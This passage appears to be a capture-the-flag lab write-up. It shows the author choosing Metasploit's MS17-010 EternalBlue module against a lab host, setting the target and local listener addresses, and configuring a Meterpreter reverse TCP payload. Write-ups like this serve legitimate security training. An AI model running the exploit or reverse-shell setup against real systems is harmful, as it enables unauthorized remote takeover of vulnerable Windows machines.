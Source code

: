 `4` is a scanner, and `5` is using a backdoor that must already be on
the system, so they are out. `1` is specifically for Win8, which is not
this system. `3` is auxiliary, though it says command execution, so I
don't want to rule it out, but I'll put it last. That leaves `0` and
`2`.

I'll try `0`:



    msf6 > use 0
    [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms17_010_eternalblue) >



I'll set the target and my local IP, and the rest of the options look
good:



    msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
    RHOSTS => 10.10.10.40
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.14.14
    lhost => 10.10.14.14
    msf6 exploit(windows/smb/ms17_010_eternalblue) > options

    Module options (exploit/windows/smb/ms17_010_eternalblue):

       Name           Current Setting  Required  Description
       ----           ---------------  --------  -----------
       RHOSTS         10.10.10.40      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT          445              yes       The target port (TCP)
       SMBDomain      .                no        (Optional) The Windows domain to use for authentication
       SMBPass                         no        (Optional) The password for the specified username
       SMBUser                         no        (Optional) The username to authenticate as
       VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
       VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


    Payload options (windows/x64/meterpreter/reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.10.14.14      yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Windows 7 and Server 2008 R2 (x64) All Service Packs



Running it returns a shell as SYSTEM:

